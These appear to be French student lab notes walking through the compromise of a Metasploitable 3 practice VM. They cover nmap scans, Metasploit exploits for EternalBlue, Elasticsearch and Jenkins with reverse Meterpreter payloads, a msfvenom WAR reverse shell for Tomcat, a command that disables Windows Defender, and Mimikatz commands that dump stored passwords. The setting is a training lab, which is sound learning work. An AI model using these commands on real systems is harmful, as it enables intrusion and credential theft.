

# Notes TP 4

## Metasploitable 3

Compte admin sur la machine:
`vagrant:vagrant`

Le clavier est en qwerty.

### Rédimensionner l'écran

Sur la fenêtre Virtual Box, sélectionner Écran > Écran virtuelle n°1 > Redimensionner à 100%.


## Scan de ports

Comme toujours on commence par un scan de ports:
    
    nmap -sV -sC 192.168.56.7 -oN nmap/inital.nmap

    nmap -sV -sC -p- 192.168.56.7 -oA nmap/full.nmap


## Eternal Blue

On a le port 445 qui est ouvert. On peut vérifier si la machine est vulnérable a __Eternal Blue (MS17-010)__ avec un __script nmap__.

```bash
$ ls /usr/share/nmap/scripts | grep smb
...
smb-vuln-ms17-010.nse
...
```

La machine semble être vulnérable :
```bash
$ nmap --script=smb-vuln-ms17-010.nse -p 445 192.168.56.7 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-17 09:53 CET
Nmap scan report for 192.168.56.7
Host is up (0.00028s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 1.10 seconds
```

On peut utiliser un exploit Metasploit pour exploiter la vulnérablitié.

Exploit windows/smb/ms17_010_psexec est noté Excellent, il est fiable mais nécessite un named pipe.

Or `smbmap` nous indique qu'il n'y a pas de pipe accessible :
```bash
$ smbmap -H 192.168.56.7                                 
[+] IP: 192.168.56.7:445	Name: 192.168.56.7                                      
```

On peut donc se rabattre sur `windows/smb/ms17_010_eternalblue`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Et on peut obtenir un shell avec la commande `exploit`.
À noter que l'exploit n'est pas particulièrement fiable.


## Elastic Search

En se connectant au port 9200, on peut identifier qu'il s'agit d'un elasticsearch en cherchant sur internet avec le

* build_hash
* lucene version

La version indiquée est la 1.1.1.
Il est existe un exploit metasploit pour cette version.

```bash
msf6 exploit(multi/elasticsearch/script_mvel_rce) > use exploit/multi/elasticsearch/script_mvel_rce
[*] Using configured payload java/meterpreter/reverse_tcp
```

On prend soin de configurer les options correctement 
```bash
msf6 exploit(multi/elasticsearch/script_mvel_rce) > options 

Module options (exploit/multi/elasticsearch/script_mvel_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        9200             yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The path to the ElasticSearch REST API
   VHOST                         no        HTTP server virtual host
   WritableDir  /tmp             yes       A directory where we can write files (only for *nix environments)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT  4785             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ElasticSearch 1.1.1 / Automatic
```

La commande `run` va nous obtenir un shell sur la machine distante.

## Jenkins

En se connectant sur le port 8484 avec firefox, on voit que l'on a à faire à un server Jenkins.



La version (1.637) est indiqué en bas de la page :


Il existe différents exploits pour cette version de Jenkins.

La box a été concue pour utiliser `exploit/multi/http/jenkins_script_console`.\
Mais on peut utiliser l'exploit plus récent et mieux noté __`exploit/multi/http/jenkins_xstream_deserialize`__.

```bash
msf6 > use exploit/multi/http/jenkins_xstream_deserialize
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(multi/http/jenkins_xstream_deserialize) > options 

Module options (exploit/multi/http/jenkins_xstream_deserialize):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PSH_PATH                    no        Path to powershell.exe
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to Jenkins
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)
```

__/!\\ Attention : __ On constate que la cible par défaut de notre exploit est `Unix` (cf Exploit target).

On configure correctement toutes les options, dont la cilbe `windows dropper` et un payload `windows/x64/meterpreter/reverse_tcp` pour utiliser l'expolit.

Options de l'exploit :
```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > setg RHOSTS 192.168.56.7
RHOSTS => 192.168.56.7
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set RPORT 8484
RPORT => 8484
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set SRVHOST 192.168.56.5
SRVHOST => 192.168.56.5
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set SRVPORT 7080
SRVPORT => 7080
```

Configurer la cible :
```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Python (In-Memory)
   2   PowerShell (In-Memory)
   3   Windows (CMD)
   4   Linux (Dropper)
   5   Windows (Dropper)


msf6 exploit(multi/http/jenkins_xstream_deserialize) > set target 5
target => 5
```

Configurer le payload:
```
msf6 exploit(multi/http/jenkins_xstream_deserialize) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/jenkins_xstream_deserialize) > set LHOST 192.168.56.5
LHOST => 192.168.56.5

msf6 exploit(multi/http/jenkins_xstream_deserialize) > set LPORT 6666
LPORT => 6666
```

On vérifie nos paramètres :
```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > options 

Module options (exploit/multi/http/jenkins_xstream_deserialize):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PSH_PATH                    no        Path to powershell.exe
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8484             yes       The target port (TCP)
   SRVHOST    192.168.56.5     yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    7080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to Jenkins
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT     6666             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   5   Windows (Dropper)
```

Et on exploite avec __`run`__.

```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > run

[*] Started reverse TCP handler on 192.168.56.5:6666 
[*] Command Stager progress -  20.94% done (2046/9770 bytes)
[*] Command Stager progress -  41.88% done (4092/9770 bytes)
[*] Command Stager progress -  62.82% done (6138/9770 bytes)
[*] Command Stager progress -  83.77% done (8184/9770 bytes)
[*] Command Stager progress - 100.00% done (9770/9770 bytes)
[*] Waiting for exploit to complete...
[*] Sending stage (200262 bytes) to 192.168.56.7
[*] Meterpreter session 1 opened (192.168.56.5:6666 -> 192.168.56.7:49600) at 2020-12-17 12:18:31 +0100

meterpreter > 

```

## Tomcat 

On a un tomcat manager. On peut essayer d'uploader un reverse shell sur le serveur.


Lister les payloads java :
```bash
$ msfvenom -l payloads | grep java                                                         
    java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                           Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                       Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                      Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                        Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                 Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                              Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                              Connect back to attacker and spawn a command shell
```

Créer un reverse shell avec meterpreter : 
```bash
$ msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.5 LPORT=3333 -f war > shell.war
Payload size: 6259 bytes
Final size of war file: 6259 bytes
```

# Extraire des credentials avec Mimikatz

Ouvrir un powershell (en tant qu'administrateur).

Désactiver temprorairement l'antivirus en powershell:
`Set-MpPreference -DisableRealtimeMonitoring $true`

Télécharger PSexec

[https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

Devenir NT \System avec PSexec :

`.\PSexec64.exe -s -i powershell.exe`

Télécharger Mimikatz :
[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

Choisir le format zip, et faire un clic droit "Extraire tout".

### Exécuter Mimikatz:
Dans x64
```powershell
.\mimikatz.exe

mimikatz # coffee
mimikatz # privilege::debug
mimikatz # lsadump::sam
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest

```


Références de commandes, et des infos récupérables par version de Windows :

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

